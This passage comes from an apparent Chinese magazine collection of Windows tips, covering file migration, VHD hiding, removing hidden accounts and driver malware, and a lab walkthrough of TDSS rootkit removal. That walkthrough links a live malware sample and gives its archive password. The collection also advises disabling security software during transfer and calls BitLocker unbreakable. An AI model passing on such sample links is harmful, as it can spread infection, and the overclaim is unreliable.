需要说明的是，软件默认处理的是当前用户账户下的自启动程序，对当前账户设置完成后，还应该从左上角用户头像处选择“所有用户”，再对其它的自启动项目进行延迟设置。

### 2. 添加其它项目至启动项并设置延时

设置了延时启动，系统启动的速度会有明显提升，这时，也许你还想把其它的一些常用程序添加到启动项目中并进行延时启动设置，这个并不难。

单击工具栏中“添加应用程序”按钮（“+”号按钮），选择程序的主执行文件，打开后，选中“启动详细”，有三种延时方案供你选择：延迟——这和上述的设置过程相同；等待——可以选择应用程序启动完成后启动，也可以选择等待用户确认后启动；高级——在这里，可以设置该程序启动的优先级，甚至可以选择指定的日期进行启动！

### 3. 保存启动延时设置

系统重新安装后，是不是要对延时的启动程序重新一一设置呢？不必，可以把延时方案保存，重装系统后再进行恢复。

单击“高级设置”按钮（扳手按钮），选择“创建新备份”，然后指定需要备份的用户账户，再单击“创建”即可，需要恢复时，在“管理备份”中恢复即可。

(文/曹春华)

## 系统升级 数据轻松传送

Windows 7已经面世很久了，连Windows 8即将“诞生”的消息都有了，可是好友明明却还在使用XP系统，我问他为什么不换Windows 7呢？他说，XP系统使用了好几年了，里面很多资料和个人设置已经习惯了，怕换了系统重新熟悉系统太麻烦。原来是这个原因啊，好办，看我给你来个系统设置大挪移。

要完成大挪移并不需要借助第三方工具，Windows本身就自带了这样一个工具来帮助我们完成这一任务，整个过程轻松、简单，在Windows 7系统中，它的名字叫“Windows轻松传送”，下面我们来看看它是如何将旧系统的设置传送到新系统上的。

### 第1步：
在Windows XP中，将Windows 7安装盘放入光驱，出现安装界面时，单击下方的“从一台计算机传送文件和设置”，稍等片刻出现“Windows轻松传送”向导界面，也可以通过运行系统盘里的程序“supportmigwizmigwiz.exe”，即可启动“Windows轻松传送”。单击“下一步”会提示关闭所有打开的应用程序。

### 小提示：
“Windows 轻松传送”可以传送的内容很多，包括账户信息，“个人文件夹”里的几乎所有文件，比如里面的“我的文档”、“我的图片”、“我的音乐”、“我的视频”、“收藏夹”等；还有邮件设置、联系人，比如Outlook和Foxmail中的账号设置和通讯簿等；微软Office软件等程序的各种设置；用户账户和设置，主题设置（包括桌面背景、颜色、声音等）、网络连接、屏幕保护程序、字体、“开始”菜单选项、任务栏选项和网络打印机、Internet设置等，这些内容一般都在系统分区。

要特别指出的是，“程序设置”的传送只能针对程序所做的设置，而不能传送程序文件本身（比如Office软件，重装系统之后仍然需要再次安装），而且支持的主要是微软的产品。

### 第2步：
根据提示单击“全部关闭”按钮，在接下来显示的对话框中可以选择传送的方式，这里单击选择“使用CD、DVD或其他可移动介质”，又会显示一个对话框，如果要将本机设置转移到其他电脑上，选择“CD或USB闪存驱动器”。CD需要本机上安装刻录机，并放入刻录盘；USB闪存驱动器需要使用U盘或移动硬盘。

### 第3步：
一般我们是准备将Win 7安装在本机上，所以选择“外接硬盘或网络位置”，在出现的对话框中单击“浏览”按钮选择备份文件的本机保存文件夹，并可以在下方输入备份文件的使用密码，这样可以避免备份文件被盗用。

### 第4步：
单击“下一步”出现对话框，选择要备份的数据和设置，单击“高级选项”，按需选择所需要的数据和设置。

单击下方的“添加文件”、“添加文件夹”或“选择驱动器”按钮，可以有选择的备份本机上的文件、文件夹或分区；如果要备份的文件占了大部分，还可以选择“不包括的文件夹”，这样没有选择的文件夹则会备份；最后单击“下一步”开始备份文件，文件名为：SaveDate.IMG。

### 小提示：
如果发现需要传送的文件比较大，可以在自定义中取消勾选非系统盘上等地方的不必要文件。在传送前最好关闭电脑管家等安全软件，以免在传送过程中出现没完没了的警告提示。另外在传送过程中最好不要进行其他操作，以免造成传输出错。

### 第5步：
安装Win 7后，还原设置和数据就比较简单了，双击备份文件(SaveDate.IMG)，系统会自动打开“Windows轻松传送”应用界面，根据提示关闭所有打开的应用程序，然后单击“下一步”出现对话框，输入备份密码，再单击“下一步”输入新的用户名，单击“下一步”确认要传送的数据和设置，单击“传送”按钮即可开始传送，传送完成后会显示一个转移摘要，单击“显示已传输的全部内容”可以查看详细清单，并以网页或文本形式保存起来。最后根据提示重新启动计算机，即可完成数据和设置传送，这样在Win 7中就可以使用XP中的各种设置和数据了。

### 小技巧：
将Windows 7设置和数据传送到Windows 7。使用电脑难免会有需要重装系统的时候，很多人害怕重装，因为重装后电脑里很多按自己习惯设置好的东西比如收藏夹、桌面等都会不见了，得花很多时间重新设置回来。其实，这种情况我们也可以使用轻松传送功能。

在旧Win 7系统上启动“Windows轻松传送”，选择“外部硬盘或USB闪存驱动器”，再选择“这是我的旧计算机”，这一步在上一种情况中没有，因为这时系统版本是最新的，软件不能判定是旧计算机还是新计算机。而后其他的操作步骤跟第一种情况类似，选择好要转移的内容及其保存路径就可以了。

在重装后的Win 7系统上的操作除了选择新计算机这步之外，其他的内容跟上一种情况也基本一致。怎么样，挺简单吧。

(文/刘卓)

## 巧设虚拟硬盘 文件“藏”起来

对于在电脑，特别是在公共电脑中的私密文件，如何才能把它们更好的藏起来，甚至加密，都是用户较为头疼的问题，使用Win 7的用户则有一个更好的选择，那就是使用Win 7特有的一个好功能，该功能可以帮助用户虚拟出一个硬盘，用户只需要将私密文件保存在这个虚拟硬盘中，就可以达到“藏”文件的目的，甚至还能将这个虚拟硬盘以不可破解的BitLocker加密方式来加密，以确保数据安全。来看看如何操作。

首先，我们先得来创建一个虚拟的硬盘，操作为“开始→搜索→diskmgmt.msc”，确定后进入磁盘管理操作界面。

在“磁盘管理”界面中选择“菜单→操作→创建VHD”。在弹出的“创建和附加虚拟硬盘”界面中的“位置”选项为虚拟硬盘所使用的文件存储位置（这个虚拟硬盘其实就是一个vhd文件，无论用户往这个虚拟硬盘中存储多少文件，都是合并存储到了这个vhd文件中），“虚拟磁盘格式”分为“动态扩展”（随着里边存储的文件大小而自动扩大vhd文件大小）、“固定大小”（限定存储文件容量为用户设定大小）。

成功创建一个虚拟硬盘后，用户就可以在“磁盘管理”界面中找到这个虚拟出来的硬盘，首先要做的就是将其初始化，初始化后才能正常使用这个虚拟硬盘，这也跟真实的硬盘是一样的，具体操作为“虚拟硬盘图标→右键菜单→初始化磁盘”。

同样的，这个虚拟出来的硬盘也需要分区与格式化后才能使用。（虚拟硬盘磁盘区域→右键菜单→新建简单卷→下一步→输入分区容量→下一步→下一步→选择格式化这个卷→下一步→完成）。

经过以上步骤，用户就创建了一个虚拟硬盘，用户可以像平时存储文件那样，将自己的私密文件存储到这个虚拟的硬盘中。

也许你会问，这个虚拟出来的硬盘，所有用户都可以访问，那么如何达到保密的目的呢？

当用户将私密文件存储到这个虚拟硬盘后，需要离开电脑时，可以将这个虚拟硬盘“脱机”（在“磁盘管理”界面中“虚拟硬盘图标→右键菜单→脱机”），这样，在我的电脑中就不会出现该虚拟硬盘了。当用户需要使用时，再选择将这个虚拟硬盘“联机”就可以了。

更加保密一点的，就可以选择“分离VHD”。在“磁盘管理”界面中选择“虚拟硬盘图标→右键菜单→分离VHD”（千万不要选择删除磁盘后删除虚拟硬盘文件选项，不然你存储在虚拟硬盘里的文件就灰飞烟灭了），这样，即使是在磁盘管理界面中也看不到这个虚拟硬盘了。当用户需要使用时，再选择“附加VHD”（在“磁盘管理”界面中“菜单→操作→附加VHD→浏览找到虚拟硬盘文件”）就可以了。

对于虚拟硬盘对应的vhd这个文件，用户可以随便将它存储到真实硬盘的各个地方，甚至将其更名为什么“xinstall.dll”之类的文件名存储到Windows目录下，这样，就可以将其隐藏到Windows文件海洋中，谁也不会轻易发觉这个文件，要找也得对Windows系统非常的熟悉才行。当然自己可要记得这个文件名，等到需要用时，再将其更名为(.vhd)就可以使用了。

还不放心，那么你可以选择将这个虚拟硬盘用BitLocker加密，开启BitLocker加密功能并使用高强度密码后，存储到这个虚拟硬盘里的私密文件就完全可以放心了，别人即时拿到你的虚拟硬盘vhd文件，没有密码也无法打开查看里边存储的私密文件。

(文/蒋小春)

## 安全大扫除 掀出系统中暗藏 “间谍”

喜欢谍战剧的朋友都知道，在战争年代，敌我双方经常互派间谍潜伏在对方阵营。这些间谍隐藏得极深，我们根本无法通过常规的方法发现他们的踪迹。
同样的，在我们的系统中也潜伏着不少类似的“间谍”。只不过这些“间谍”来源不同：它们有的是自己误操作造成的，有的则是软件生成的，还有的可能是黑客留下的后门。这些“间谍”的存在给系统安全带来极大隐患。下面就一起来看看如何揪出系统中这些暗藏的“间谍”！

### 硬件间谍——隐身历史硬件设备
隐身系数：★★★
危害程度：★★★
危害缘由：大家知道当你的电脑曾经插入过某种设备并被系统识别（不管成功与否），那么在系统中就会自动保存该设备的驱动程序。如果第一次连接这个设备时并没有被系统正确识别（比如很多山寨摄像头就常出现这种情况），那么在“设备管理器”中设备就显示为带有问号的未知设备，或者显示为Unknown Device。由于系统已经保留错误驱动文件，Windows 在每次连接这些设备后都会自动沿用之前错误的驱动配置。这样隐藏在系统中的错误驱动就变成了“间谍”，它会阻止我们以后安装正确驱动。
解决方案：使用设备管理器删除历史设备驱动。
实例解读：删除错误摄像头驱动。

笔者购买一个山寨摄像头，由于没有自带驱动，第一次插入电脑后被识别为“其他设备”，以后一直无法正确使用。现在可以使用设备管理器将其错误驱动删除，不过默认设备管理器无法显示未连接至计算机的设备（插入摄像头又无法识别）。只要新建一个设备显示变量即可。

- **第1步：** 单击“开始”，在搜索框输入“环境变量”，然后单击“编辑账户环境变量”。在打开的变量设置窗口，在用户变量下单击“新建”，新建一个名为“Devmgr_show_nonpresent_devices”的变量并赋值为“1”。
- **第2步：** 经过上述设置后，现在打开“设备管理器”，单击“查看→显示隐藏的设备”。所有曾经插入电脑的设备都可以显示出来。按提示依次展开“其他设备→摄像头”，右击将其驱动卸载，现在重新插入摄像头即可正确安装驱动了。

### 小提示：
通过上述设置后，设备管理器可以显示所有历史设备，我们还可以利用这个特性追查设备，比如公司电脑可以通过历史设备记录找到曾经插入的闪盘，以便找出带毒闪盘。

### 登录间谍——隐身账户
隐身系数：★★★★
危害程度：★★★★★
危害缘由：账户是用户登录系统的唯一合法凭证，默认情况下我们通过“计算机管理→系统工具→本地用户和组→用户”，查看到本地所有账户。不过黑客可以在我们系统新建一个隐藏账户，并且赋予其管理员权限。这个账户无法通过上述方法看到，这样我们的电脑就可以被黑客轻易入侵了。令人忧虑的是创建隐身账户非常简单，而且网上有大把的教程，即便是菜鸟黑客也可以轻松创建隐身账户。
解决方案：使用注册表编辑器查看和删除账户。
实例解读：删除黑客制作隐身账户。

隐身账户虽然无法通过计算机管理工具查看到，不过系统中所有账户（包括隐身账户）信息都是保存在注册表中的，因此我们只要展开注册表中相应的键值即可查看所有账户。

- **第1步：** 启动注册表编辑器后，依次展开[HKEY_LOCAL_MACHINE\SAM\SAM]，右击[SAM]选择“权限”，将“Administrators”账户对该键值权限设置为“完全控制”。单击注册表编辑器“查看→刷新”，继续展开[HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users]和[Names]项。如果你的电脑中有隐身账户，现在就可以在[Names]项下看到一个类似“cfan$”（账户名后带$符号）隐身账户。它默认值是“0x3ed”，对应的USERS代码则为“000003ED”，这就是账户名称及其权限注册表数据。
- **第2步：** 发现隐身账户后，现在我们只要在注册表中将“CFAB$”及其对应的“000003ED”键值删除即可。

### 后台间谍——隐身驱动服务
隐身系数：★★★★★
危害程度：★★★★★
危害缘由：系统服务是在后台以系统账户运行的进程。它默认随机启动并且加载优先级很高，因此如果病毒或者木马伪装成系统服务，它就会在系统后台运行。常规的系统服务我们是借助“服务管理”工具查看。如果木马伪装成驱动就无法通过这个组件查看。
解决方案：使用pserv2查看所有服务。
实例解读：使用pserv2发现驱动病毒。

由于中招驱动病毒后，病毒会在系统内增加驱动服务，因此为了方便中毒前后的比较，我们要在系统正常的时候对驱动服务做个备份。

- **第1步：** 在系统正常的时候，启动pserv2（下载地址：http://www.xdowns.com/soft/6/56/2006/Soft_28450.html）。后单击“显示→设备”（服务型病毒单击“显示→服务”）。程序会将当前系统所有驱动服务全部展示出来。继续单击“模板→导出到XML”。按提示将当前所有驱动服务导出为“k:\1.xml”文件。
- **第2步：** 如果现在怀疑中招驱动病毒，同上再次将当前系统驱动服务导出为“k:\2.xml”文件。然后到http://www.scootersoftware.com/BCompare-zh-3.2.4.13298.exe下载“Beyond Compare 3”比较软件，运行该程序后选择“比较文本”。然后在左右窗格依次选择上述导出的两个文件，单击“查看→显示差异项”，很快就可以看到后面导出的文件里新增了一个名为“ISODRIVE”的驱动服务。它加载的是“c:\windows\system32\drivers\bcdrive.sys”文件。
- **第3步：** 知道新增的病毒服务和文件名后，只要重启进入安全模式，然后启动“pserv2”按提示将病毒服务删除，并将加载的驱动文件删除即可。

### 小提示：
同样的我们可以在执行系统服务优化前对优化前后服务导出，以便在执行优化后出现故障时进行比对，快速找出优化的服务项。

### 其他间谍——系统中更多隐身设置
除了上述介绍的隐身文件外，其实系统中还有很多“潜伏者”，最后为大家简单介绍一下解决方法：

- 1. **EISA格式隐藏分区。** 大多是由于安装一键还原软件生成的，可以借助“普通分区与EISA分区互转程序”（下载地址：http://www.upan.cc/tools/others/2009/EISA-v2.0.2.html），运行程序后在分区列表选中标记为“Diag Hidden Volume”的隐藏分区，单击“显隐分区”，将这个分区显示出来即可。
- 2. **隐藏在畸形目录文件。** 一些病毒会在系统建立畸形目录如“a.\”，超长名字目录（windows目录长度不能超过256字节）等来保存病毒文件。这些文件我们无法访问也无法删除。此时可以借助“XueTr”，运行程序后切换到“文件”，找到畸形目录选择“强制删除”即可。
- 3. **显示被隐藏的扩展名。** 文件扩展名可以非常方便让我们辨别文件类型，但是一些病毒可能会将指定类型的文件如EXE扩展名设置为不显示。这样即使在文件夹查看方式中设置为“显示所有文件扩展名”，EXE文件扩展名也不会显示。此时只要打开注册表编辑器，展开[HKEY_CLASSES_ROOT\exefile]，然后将右边窗格“NeverShowExt”项删除，重启后即可显示EXE文件扩展名了，其他类型文件操作类似。

(文/俞木发)

## 设置远程桌面 练就火眼金睛

单位局域网内的一台Windows XP的计算机，因安装有企业内部指定的应用系统的服务端，需要公开IP地址，系统用户名和密码，让指定的5台计算机远程桌面登录访问控制。
可是单位内其他人员因为好奇也远程登录到该计算机，不仅造成了管理混乱也威胁到了服务端的数据安全。

于是领导安排下来，让“远程桌面”练就火眼金睛，只允许指定IP地址的计算机远程桌面登录服务器。

可上网搜索测试了多款软件，效果并不是很好。一次偶然机会，在关闭网络端口时，发现只需要在被远程桌面访问的计算机上进行“IP安全策略”相关设置，竟可完全满足领导提出的需求。

### 第一步：新建 IP 安全策略
- 1. 依次单击“控制面板→管理工具→本地安全策略”，在弹出的“本地安全设置”窗口中，鼠标右键单击“IP安全策略”，在弹出菜单中，单击创建IP安全策略。
- 2. 在弹出的“IP安全策略向导”对话框中，单击下一步。输入名称：指定IP可访问远程桌面，单击下一步。
- 3. 取消激活默认响应规则，单击下一步。选中编辑属性，单击完成。

### 第二步：新建 IP 筛选器
- 1. 在弹出的“指定IP可访问远程桌面属性”窗口中取消使用“添加向导”，单击添加。
- 2. 在弹出的“新规则属性”窗口中的“IP筛选器列表”选项卡中单击“添加”。
- 3. 在弹出的“IP筛选器列表”窗口的“名称”栏中填写名称，比如放行指定IP的3389连接。再取消使用添加向导后，单击添加。
- 4. 在弹出“筛选器属性”窗口的“寻址”选项卡中，源地址选择为“一个特定的IP地址”，并输入IP；目标地址选择“我的IP地址”，取消镜像。
- 5. 再切换到“协议”选项卡，“选择协议类型”为TCP，“设置IP协议端口”为从任何端口，到此端口填写3389。单击确定关闭IP筛选器属性，再确定关闭IP筛选器列表。
- 6. 依照步骤2，在“新规则属性”窗口中的“IP筛选器列表”选项卡中再添加一个IP筛选器，名称为：阻止3389连接。源地址为任意IP，目标地址为我的IP。协议：TCP，端口3389。
- 7. 依照步骤2，再设置另外4台可访问远程桌面的计算机。

### 第三步：给新建的 IP 筛选器加上筛选器操作
- 1. 在“新规则属性”窗口中选择“筛选器操作”选项卡，单击添加。选择阻止。在常规选项卡里的名称改为：阻止，单击确定。
- 2. 单击“新规则属性”窗口中的“IP筛选器列表”，选中放行指定IP的3389连接。然后再选择筛选器操作选项卡，选中许可，确定。
- 3. 在“IP可访问远程桌面属性”窗口中，单击添加，选择“阻止3389连接”，然后再选择筛选器操作选项卡，选中许可，确定。确定后，右击IP可访问远程桌面，选择指派，不用重启机器即可生效。

(文/陈孝勤)

## 空间不浪费 为隐藏分区添加PE维护系统

大家知道很多预装Win7的品牌电脑都有一个卷标为“系统保留”的隐藏分区，它的大小为100MB。这个分区保存的实际上是Win7的引导文件，它们大约只占用5MB的空间。何不将我们常用的PE维护系统放到这个分区？这样既不浪费剩余空间，又可以随时使用PE进行系统维护。

### 小知识：Win7保留分区的由来

只有通过Win7安装光盘启动安装，并且使用光盘自带的分区工具对硬盘进行分区时才会产生保留分区（在已经分好区的电脑上安装时不会有该分区的）。品牌机预装系统时，大多是使用Win7安装光盘启动安装的，因此预装Win7的品牌电脑大多会存在这个保留分区。

由于保留分区剩余空间不足100MB，这里推荐使用“网虫2008完整版维护盘”（下载地址：http://bbs.wuyou.com/viewthread.php?tid=157912）作为维护PE。它的核心只有70MB，而且功能非常完善。我们只要将这个PE系统添加到保留分区，并在“BCD”文件中配置其启动即可。

### 第一步：获取所需的 PE 文件

首先将下载的“网虫2008完整版维护盘”解压得到“Winpe.iso”将其保存在D盘备用。接着使用WinRAR打开“Winpe.iso”将其中的“wc2008\win7re.wim”文件解压到D盘。最后再打开“C:\recovery\ed94fc0-b5f0-11e0-87c0-005056c00008”，将其中的“boot.sdi”文件也复制到D盘备用。

注意：“C:\recovery”是系统隐藏目录，需要将文件夹查看方式设置为显示系统文件和所有文件，并且将当前用户对该目录读取权限设置为“完全控制”才能打开复制。其下的子目录每台电脑名称是不同的。

### 第二步：将 PE 文件复制到保留分区

由于保留分区没有盘符无法直接访问（不建议在磁盘管理中为其分配盘符，这样很容易导致Win7无法启动）。这里使用“DiskGenius”（下载地址：http://www.onlinedown.net/soft/9570.htm）复制PE文件。启动程序后可以看到当前系统有一个“系统保留”分区，展开该分区，然后在右侧窗格右击选择“复制文件到当前分区”，按提示将上述解压到的“win7re.wim”复制到保留分区。操作同上，展开“系统保留\boot”，将“d:\boot.sdi”文件复制到该目录下，这样就完成PE文件的复制操作了。

### 第三步：配置 PE 启动项

首先到http://xp.oyksoft.com/oyksoft/18696/O/http%3A%2F%2Fjs.oyksoft.com%2F201106%2Fbootice_0.9.rar下载“Bootice.exe”。启动程序后切换到“BCD编辑”标签，单选“系统BCD”，然后单击“查看/修改”。

注意：如果当前系统下“系统BCD”无法选择，则可以使用上述介绍的“DiskGenius”先将“系统保留\boot\bcd”文件复制到桌面，单选“其他文件”，将BCD文件修改完成后再复制到保留分区替换原文件。

接着在弹出的编辑窗口单击“添加→新建WIM启动项(ramdisk)”。接着选中新建的启动项，然后依次执行下列的操作：

启动分区选择：O:（主, NTFS, 100.0MB, 系统保留）

设备文件：\win7re.wim

菜单标题：WinPE维护系统

其它的选项采取默认设置，最后依次单击“保存当前系统设置”和“保存全局设置”退出。

小提示：

如果你的Win7启动菜单不是简体中文界面，只要在“保存当前系统设置”和“保存全局设置”中系统语言全部设置为“zh-cn”即可修复。

### 第四步：使用 PE 维护系统

经过上述操作后，我们就将功能强大的“网虫2008完整版维护盘”移植到了系统保留分区，由于这个分区没有盘符，即使是病毒也无法破坏这个PE。以后只要在多重启动菜单选择“WinPE维护系统”即可进入这个PE系统。

#### 实战1：使用PE修复系统启动故障

这个PE使用图形界面，具体的使用和Win7一样，并且它已经自带丰富的维护工具。比如你的Win7出现诸如Windows启动管理器变成英文界面（中文菜单乱码）、Win7的3D启动画面丢失（变成VISTA滚动条启动画面）、运行“msconfig”后“启动”或“引导”栏空白之类故障。现在进入PE后，单击“开始→系统启动菜单修复”，启动修复程序后单击“自动修复”即可修复上述常见故障。

#### 实战2：使用网络工具维护系统

PE集成的工具毕竟有限，如果需要下载其他工具，这个PE还集成了上网功能（适合ADSL、局域网各种上网方式），这样可以大大扩展维护功能。进入PE后单击“开始→Imdisk虚拟磁盘”，启动虚拟磁盘工具后单击“加载新的”，然后在弹出的窗口选择加载前面下载到的“d:\winpe.iso”文件。接着返回桌面，双击“加载外部配置”即可加载所有外置插件。成功加载后再双击桌面的“启用网卡支持”，PE会自动安装所需的网卡并自动设置上网方式。

小提示：

这个PE已经集成大量的网卡驱动（包括常见无线网卡），如果你的网卡无法被正确识别，还可以通过PE内置的设备管理器手动安装网卡驱动，只要选择手动安装驱动（因为原来Win7已经有网卡驱动），然后定位到“D:\windows\inf”（PE中C盘为系统保留分区）查找并安装网卡驱动即可。

对于局域网用户，加载网卡后就可以直接上网，对于ADSL用户，双击桌面的ADSL连接，输入ISP账号和密码即可上网。单击“开始→全拼与指示器支持”，启动PE输入法支持，然后双击桌面的OPERA浏览器，打开浏览器后就可以上网下载各种工具进行更多的维护操作了，比如可以登录各种在线杀毒网站进行病毒的在线查杀。

## 为Windows解锁 我只需动动嘴

通过为Windows配置密码，当您暂时离开电脑时，按下“Win+L”键将系统锁定，这样别人就无法操作您的电脑了。这是地球人都知道的技术。不过该方法仍然存在一定的风险，一旦您的密码泄露，您的爱机就无险可守了。

试试VoicePass PC Security Lock（简称VPSL）这款独特的安全软件吧！您只需对着麦克风说说话，就可以自动为系统解锁。因为每个人说话的语音特征是不同的，别人是很难模仿的。更棒的是，VPSL还能同时并用语音指令和常规密码两种解锁方式，极大地提高了系统的安全性。

### 让电脑 “听懂” 您的语音指令

VPSL的运行需要Microsoft .NetFrameWork 4.0组件的支持。在使用VPSL之前，必须让其为您建立语音识别特征库，也就是让其“听懂”您的声音指令。为了便于说明，本例中我们将“芝麻开门吧”这句话作为解锁指令。在VPSL主窗口的“Enrollment”面板中点击“Record”按钮，之后对着麦克风念“芝麻开门吧”。当VPSL采集到合格的语音信号后，会自动重播您的讲话，同时将其添加到录音列表中。如果录制失败的话，VPSL会提示您重新录制。按照上述方法，您必须连续执行录音操作，直到录制完十个合格的语音文件为止。

之后VPSL会对这十个录音文件进行智能分析，从中测算您的语音特征信息。如果检测出存在问题的录制文件，会要求您按照指定次数重新执行录音操作，直到所有的录音文件全部通过检测。您的语音识别特征库就建立完成了。当然，上述录音过程有些枯燥乏味，您一定要有耐心哦！

### 深入配置 VPSL 高级功能

为了进一步提高安全性，您还可以增设解锁密码。在VPSL主窗口的“Set Password”面板中输入解锁密码和您的Email地址，点击OK按钮保存密码信息。

在“General Settings”面板中勾选“Ask password on Quit, Re-Enroll and Save Settings”项，这样当退出VPSL时（或者更改VPSL配置时），必须输入密码。勾选“Lock computer after X minute(s) of inactivity”项，表示当VPSL检测到电脑在规定的时间（默认为8分钟）内没有任何活动时，可以自动锁定系统。勾选“AutoLock on computer startup”项，可以让VPSL在Windows启动时立即锁定系统。如果您只希望语音解锁系统，可以取消“Add alternative unlock method (password) on lock screen”项的选择状态，这样在锁定界面中只允许语音解锁，禁止使用密码解锁。

勾选“Use password after X unsuccessful voice attempts”项，表示当在预设的次数（默认为3次）内语音解锁失败后，必须使用密码解锁。为了达到最高安全级别，可以勾选“Require both voice and password to unlock the computer”项，表示在进入锁定界面后，在正确完成语音识别后，还必须输入正确的密码，才可以为系统解锁。

### 自定义锁定界面

VPSL允许您自定义锁定界面。在“Custom Lock Screen”面板中勾选“Transparent Lock Screen”项，在其下拖动滑块，来调整锁定界面的透明度。勾选“Show image when Lock Computer”项，点击“Browse”按钮，可以使用选定的图片作为锁屏背景。在“Lock Screen Image Visual Effect”栏中可以选择图片显示的方式（包括平铺和拉伸）。

### 实战语音解锁操作

接下来试试VPSL的威力吧！在VPSL主窗口左侧点击“Lock”按钮，或者在系统托盘中的VPSL右键菜单中点击“Lock Computer”项，VPSL可以立即锁定系统。当执行解锁操作时，点击锁定界面中的“Voice”按钮，之后对着麦克风说出您的解锁语句，本例中您需要说出“芝麻开门吧”这句话。VPSL会根据采集的录音和语音识别库中的数据进行对比分析，如果语音特征和内容都相符合的话，就可以自动解锁。您也可以在锁定界面中的“Password”栏中输入密码，点击“Login”按钮，来执行手工解锁操作。当然，如果您设定只允许语音解锁的话，就无法手工解锁了。如果设置了双重解锁功能，您必须同时完成语音和手工双重解锁操作，方可回到正常的系统环境中。

小提示：

当有人对着麦克风讲话，试图为系统解锁时，如果解锁失败，VPSL可以将其语音完整录制下来，其默认的存储路径为我的文档中“VoicePass\Recordings”文件夹。进入该文件夹，可以播放这些错误的解锁语音信号。因为每个人的声音特征是不同的，您很容易识别出是哪些人非法操作了您的爱机。

## 万花丛中过 片叶不沾身

小成是一个不折不扣的软件迷，热衷于搜寻和使用各种有趣的软件。不过小成也有自己的烦恼，反复在电脑上安装和卸载各种软件，时间长了，造成了电脑的运行速度明显降低。每隔一段时间，小成就要重新安装一遍系统，实在是不胜其烦。究其原因，说到底还是软件卸载不彻底的缘故。自从小成用上了Full Uninstall（简称FU）这款强悍的卸载软件，上述烦恼就随之烟消云散了。在FU面前，所有的软件只能是静悄悄的来，不留痕迹的离去。

当您需要安装软件时，点击FU主窗口中的“Command”→“Install an Applications”项。在监控窗口中点击“Forward>”按钮，FU可以记录当前各系统配置参数，在下一步窗口中点击“Run Installer”按钮，选择目标安装程序，之后目标程序可以自动运行。您可以按照步骤完成该软件的安装操作，完成安装之后，返回FU监控界面，点击“Forward>”按钮，FU可以自动对比分析该软件安装前后的系统变化情况，将目标软件对系统的所有改动情况完整无缺的记录下来。在下一步窗口中输入该软件的安装名称，点击“Finish”按钮完成整个监控操作。

在FU主窗口程序列表中选择该安装项目，在其右键菜单中点击“Show Changes to the System”项，在弹出窗口的“Registry”面板中显示该软件对注册表的所有改动项目，在“Files System”面板中显示其在系统中生成的所有文件。根据以上信息，您可以清楚的看到该软件对系统所作的任何改动。

> （文/郭建伟）

## 无所畏惧 手杀TDSS病毒

TDSS,TDL-4 Rootkit（中文名：鬼影）是欧美流行的一类恶意程序，被国外安全行业称为“如日中天的网络犯罪技术”。其危害在于感染电脑硬盘主引导记录（MBR），造成“格式化硬盘也删不掉”，而且杀毒软件很难检测和修复，影响所有32位和64位的Windows系统。目前，该技术已被国内部分黑客模仿使用。那么病毒的工作原理是什么呢？我们该如何防范呢？让我们在试验中一一解答。

- 样本下载地址：http://www.kuaipan.cn/file/id_77435683365308.html
- 压缩包密码：virus
- 测试环境：Vmware Workstation + Windows XP SP3
- Windows PE软件：XuTr Sector Editor Disk Genius

将虚拟机恢复干净快照，放入病毒，双击运行。可以观察到病毒运行几秒钟后删除自身文件，等待几分钟后重启虚拟机。

通过监测软件，监测到病毒加载imagehlp.dll, winspoo.drv链接库，并将自己复制到系统临时文件夹，命名为*.tmp，*为随机数字。

打开XueTr，选择驱动模块选项卡，发现可疑PE映像，而且系统回调也有异常。

最主要判断TDSS病毒的方法是检测对象劫持，至此我们可以判断这就是一个TDSS病毒。

在参考了部分资料后，发现除了MBR部分的恶意代码外，此病毒的其它内容是以加密方式写入硬盘尾部扇区。由于感染后的MBR含有硬盘尾部扇区代码的引导代码，Windows每次启动时，此代码都会执行。

因为病毒代码并未写入Windows系统所在分区，所以，中毒后若不重建MBR，即使重新安装Windows，也不会清除这个病毒。

在感染的状态下用Sector Editor检测，硬盘最后一个扇区，没有异常，其它的扇区包括MBR也是如此。这是由于病毒在运行的时候，你要检测的话，它会给你返回一个正常的结果，你无法完成检测和修复，包括病毒的联网行为、病毒感染的驱动等，在感染环境里一般软件根本无法检测。

我们接下来最主要的工作在于PE环境下重建MBR。如果不这样的话，一切都是徒劳。也许有人会问，既然末扇区存在恶意代码，为什么不先清除末扇区的病毒代码呢？那个比重建MBR风险要小啊？我解释一下，经过我的多次试验，只清除末扇区的代码，而不重建MBR会造成电脑无法引导操作系统。原因是病毒在启动过程中也会加载感染前病毒备份的正常的MBR，这样才能完成电脑的启动，可是备份被删除了，就造成了无法引导操作系统。由于该病毒的变种众多，有的具体行为还不能确定，所以还是建议在重建MBR后再一并清除末扇区的恶意代码。

在PE环境里重建MBR，我们可以使用Disk Genius软件，单击“硬盘”，选择“重建主引导记录(MBR)”，然后弹出一个对话框，点击“是”完成重建。建议重建前先备份MBR，我们比较一下被感染的和修复后的MBR（截图为前半部分的比较），可以发现有大约四分之三的部分被改写。

从PE环境下用Sector Editor检测的最后一个扇区20971519，可以发现已经被写满了代码，向前一直到20971271扇区，一共249个扇区被写入代码。

在填充之前，先要注意你的硬盘末区是否存在重映射扇区。当硬盘检测到坏扇区时，它会标记这些坏扇区并将其重新映射到“备用扇区”，以维持硬盘正常运行。这样有的情况下重映射扇区与病毒写入的扇区混杂在一起，就无法区分哪些扇区该保留，哪些扇区可以填充。关于重映射扇区，那可以用HD Tune软件查看，如果存在的话，那就先不要处理了。

我是在虚拟机中进行的试验，硬盘不存在重映射扇区，所以我使用16进制00填充了这些扇区。注意不要填充扇区，不同电脑硬盘的扇区号不一样，否则也会造成系统无法引导。我开始就是尝试清除部分代码，达到破坏病毒运行的目的，结果发现系统也无法引导了。

通过实验可以发现，进入Windows系统后，病毒先检测自身的运行环境，进而选择一种合适的方法完成自身的驱动加载和感染。

在32位系统中，病毒会先获得必要的系统权限，例如加载虚假打印机驱动，然后将一个32位版本的恶意驱动加载到系统内核中。此驱动一旦加载，MBR就被感染了。

在64位系统中，因为内核驱动须通过签名验证方能加载，所以病毒是直接感染MBR，并将程序代码写到硬盘尾部扇区，接着强迫系统重启。系统重启时，病毒即可加载到系统内核中。

而清除TDSS病毒要直接修改硬盘扇区，数据无价，谨慎操作！其实卡巴斯基和Bit Defender都已经发布了TDSS病毒的专杀工具，使用专杀工具可以安全快捷的清除病毒，所以实机感染不建议手杀！

> （文/李杨）

## 打造炫目的多操作系统电脑平台

### 入门级解决方案

